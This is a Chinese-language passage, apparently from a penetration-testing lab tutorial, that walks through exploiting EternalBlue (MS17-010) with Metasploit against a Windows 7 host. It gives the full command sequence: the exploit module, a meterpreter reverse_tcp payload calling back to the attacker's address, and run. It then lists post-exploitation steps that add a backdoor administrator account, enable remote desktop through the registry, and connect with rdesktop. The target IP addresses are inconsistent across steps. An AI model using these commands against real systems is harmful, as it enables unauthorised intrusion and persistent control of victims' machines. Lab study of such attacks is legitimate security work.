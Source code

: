 ## 漏洞利用(谨慎使用)

通过漏洞探测阶段我们发现`192.168.205.150(假设）`这台目标主机存在永恒之蓝漏洞，那我们可以使用MSF中的
攻击模块进行漏洞攻击，看看能不能获取到目标主机的webshell，
## 注意：

所需攻击条件：

1.防火墙必须允许SMB流量出入

2.目标必须使用SMBv1协议

3.目标必须缺少MS17-010补丁

4.目标必须允许匿名IPC $和管道名


这样的话，`我们就可以通过溢出漏洞来搞内网的横向扫描。`执行以下命令：


### 调用攻击

```
use exploit/windows/smb/ms17_010_eternalblue //使用永恒之蓝攻击模块
```
```
set payload windows/meterpreter/reverse_tcp  //设置一个Payload，使攻击机接受来自目标主机的session
```
```
set rhosts 192.168.205.150  //设置目标主机地址
```
```
set lhost 192.168.205.148   //设置接受payload的地址，我们这里设置MSF的地址
```
```
set LPORT 5555              // 设置接受的端口，这个自己自定义，只要不与其它端口冲突就可以
```
```
run                     //执行攻击命令
或
exploit                 //执行提权攻击
```
## ④通过Shell对靶机Win7进行控制

创建用户名密码
``` 
blue/blue  net user blue blue /add
``` 
将用户blue添加入管理组  
```
net localgroup administrators blue /add
``` 
开启远程桌面功能
```  
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
``` 
Kali远程桌面连接Win7  
```
rdesktop 172.16.70.199:3389

```

